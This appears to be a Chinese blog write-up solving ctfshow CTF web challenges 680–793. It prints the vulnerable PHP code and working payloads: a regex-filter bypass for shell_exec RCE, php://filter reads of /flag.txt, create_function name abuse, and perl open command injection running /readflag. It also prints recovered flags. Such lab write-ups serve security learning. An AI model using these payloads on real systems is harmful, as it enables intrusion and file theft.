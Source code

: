 ## web680
代码执行，没什么难度
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23087450/1641465374611-87dec341-e50c-4277-a19d-ce9b11a5bb4d.png)
secret那个文件下载下来就是flag

## web683
```php
<?php

   error_reporting(0);
   include "flag.php";
   if(isset($_GET['秀'])){
       if(!is_numeric($_GET['秀'])){
          die('必须是数字');
       }else if($_GET['秀'] < 60 * 60 * 24 * 30 * 2){
          die('你太短了');
       }else if($_GET['秀'] > 60 * 60 * 24 * 30 * 3){
           die('你太长了');
       }else{
           sleep((int)$_GET['秀']);
           echo $flag;
       }
       echo '<hr>';
   }
   highlight_file(__FILE__);
```
重点在第八行和第十行的判断，要求输入范围是5184000-7776000，满足条件的数会进入sleep，当然是不可能直接去输入一个数比如6000000，注意到第13行，在sleep前执行了一次int，所以考虑科学技术法绕过，比如变为6e6，这样int后执行的就是sleep(6)
payload：/?秀=6e6
## web761（$a==md5($a)）
0e215962017

## web779

```php
// /flag
function DefenderBonus($Pokemon){
    if(preg_match("/'| |_|\\$|;|l|s|flag|a|t|m|r|e|j|k|n|w|i|\\\\|p|h|u|v|\\+|\\^|\`|\~|\||\"|\<|\>|\=|{|}|\!|\&|\*|\?|\(|\)/i",$Pokemon)){
        die('catch broken Pokemon! mew-_-two');
    }
    else{
        return $Pokemon;
    }

}

function ghostpokemon($Pokemon){
    if(is_array($Pokemon)){
        foreach ($Pokemon as $key => $pks) {
            $Pokemon[$key] = DefenderBonus($pks);
        }
    }
    else{
        $Pokemon = DefenderBonus($Pokemon);
    }
}

switch($_POST['myfavorite'] ?? ""){
    case 'picacu!':
        echo md5('picacu!').md5($_SERVER['REMOTE_ADDR']);
        break;
    case 'squirtle':
        echo md5('jienijieni!').md5($_SERVER['REMOTE_ADDR']);
        break;
    case 'mewtwo':
        $dream = $_POST["dream"] ?? "";
        if(strlen($dream)>=20){
            die("So Big Pokenmon!");
        }
        ghostpokemon($dream);
        echo shell_exec($dream);
}
```

主要是第三行的过滤，可以使用od带出数据，通配符*？也过滤了，考虑之前无数字字母时的RCE，用[x-x]这种代替，

payload：``dream=od%09/f[b-z][Z-f]g&myfavorite=mewtwo``

```python
'''
Author: KonDream
Date: 2022-01-24 23:11:40
LastEditors:  KonDream
LastEditTime: 2022-01-24 23:37:37
Description:  
'''

a = ['072143','071546','067550','075567','034464','062463','032065','061062','032055','034070','026543','062064','062543','060455','033544','026542','034061','061545','060543','060471','061467','062062']

for i in a:
    hex_i = str(hex(int(i, 8))[2:])
    print(chr(int(hex_i[2:], 16)), end="")
    print(chr(int(hex_i[:2], 16)), end="")

# ctfshow{493e542b-488c-4dce-ad7b-18ecca9a7c2d}
```

对数据a需手动修正

## web784

非预期了

``payload：?file=php://filter/convert.base64-encode/resource=/flag.txt``

## web787(匿名函数)

```php
<?php

error_reporting(0);
/*创建匿名函数，$key为%00lambda_%d*/
$key = create_function("","die(`cat /flag.txt`);");
/*生成32位随机数*/
$hash = bin2hex(openssl_random_pseudo_bytes(32));
eval("function ctfshow_$hash(){"
    ."global \$key;"
    ."\$key();"
    ."}");
if(isset($_GET['func_name'])){
    $_GET["func_name"]();
    die();
}
show_source(__FILE__);
```

此题关键点在于create_function，这个函数创建了一个匿名函数，我们想要拿到flag就只有调用$key或者ctfshow_$hash()，如果去碰撞这个hash显然不现实，这里如果打印$key会发现其实它返回``%00lambda_%d``，%d是从1开始逐增的整数，也就是说在最开始的时候``$key=%00lambda_1``，我们每一次访问页面后面的数字都会增加，``%00lambda_2、%00lambda_3``等等，所以这个题只有一次成功机会，在环境刚开时打入payload：``?func_name=%00lambda_1``

## web793

**出处：[HITCON 2017]SSRFme**

```php
<?php
    # GET 类似于ls，可以获取目录结构，也可以用于命令执行
    $data = shell_exec("GET " . escapeshellarg($_GET["url"])); 
	# 以数组的形式返回关于文件路径的信息
    $info = pathinfo($_GET["filename"]); 
	# $info["dirname"]为目录路径，并且去掉了.
    $dir  = str_replace(".", "", basename($info["dirname"])); 
	# 创建目录
    @mkdir($dir); 
	# 切换目录
    @chdir($dir); 
	# 写文件
    @file_put_contents(basename($info["basename"]), $data); 
    highlight_file(__FILE__); 
```

踩坑点：本地复现时是win环境，GET命令无法执行，卡了我好一会

首先获取根目录下文件结构：``payload：?url=/&filename=test/test.txt``

访问 test/test.txt 得到

![image-20220228185333753](image/ctfshow 大赛原题 （680-XX）/image-20220228185333753.png)

有个flag和readflag，flag并不能直接读，所以是通过readflag去读flag内容

**tips：file伪协议在使用的时候会执行perl中的open函数，open存在命令执行，前提条件是必须存在以 即将执行的命令 命名的文件夹，才会触发。**

第一步创建同名文件：?url=&filename=bash -c /readflag|

第二步命令执行：?url=file:bash -c /readflag|&filename=/test/test.txt

**别忘了管道符**

![image-20220228191605272](image/ctfshow 大赛原题 （680-XX）/image-20220228191605272.png)

此外也可以弹shell，但是perl下弹shell我一直失败，如有成功的师傅烦请滴滴我让我膜一下Orz

